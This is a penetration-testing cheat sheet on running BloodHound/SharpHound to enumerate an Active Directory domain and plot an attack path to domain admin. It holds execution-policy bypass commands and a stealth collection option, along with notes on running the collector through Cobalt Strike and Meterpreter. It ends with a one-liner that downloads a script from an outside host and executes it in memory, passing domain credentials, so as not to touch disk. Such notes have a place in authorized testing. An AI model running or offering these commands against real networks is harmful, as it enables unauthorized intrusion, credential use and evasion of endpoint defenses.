 # BloodHound \(SharpHound\)



#### BloodHound \(SharpHound\) <a id="bloodhound-sharphound"></a>

Great for quickly enumurating a domain to determine an attack path

```text
Set-ExecutionPolicy RemoteSigned
Powershell -Exec Bypass (from cmd)
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod Session -Stealth -Verbose
or
Invoke-BloodHound -CollectionMethod All -CompressData

or

powershell-import /usr/lib/bloodhound/resources/app/Ingestors/SharpHound.ps1
powershell Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV

        Runs ACL, ObjectProps, Container, and Default collection methods sequentially, compressed the data to a zip file,
        and then removes the CSV files from diskMATC


GUI side
/usr/bin/neo4j console
defaults neoj4 bloodhound

Note:
In cobalt can use powerpick or powershell-import and in meterpreter use "load powershell" and can run items in memory but still needs to save to disk

Note: Default Location
/usr/lib/bloodhound/resources/app/Ingestors/SharpHound.exe
/usr/lib/bloodhound/resources/app/Ingestors/SharpHound.ps1
```

if running into to powershell issues then try running straight from SysWOW if not located there use the "where" command to determine location. "where" is equivalent to "which" on linux.

```text
 where explorer

 C:\Windows\explorer.exe
```

Note if you cant find a path to DA, most likely dont have enough user data

try the following neo4j script to determine how much of user session data and from there try running sharphound with an hour to 2 hour loop

```text
MATCH (u1:User)
WITH COUNT(u1) AS totalUsers
MATCH (c:Computer)-[r:HasSession]->(u2:user)
RETURN 100 * COUNT(DISTINCT(u2)) / totalUsers AS userPercentage
```

```text
-c SessionLoop
```

### Without touching disk:

Often touching the disk can be problematic. This will download and execute in memory:

```text
powershell -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.15:8000/SharpHound.ps1');Invoke-BloodHound  -SearchForest -CompressData  -CollectionMethod All,GPOLocalGroup,LoggedOn  -IgnoreLdapCert -Domain DOMAIN.local -LDAPUser USER -LDAPPass PASS -DomainController 10.10.10.161" 
```

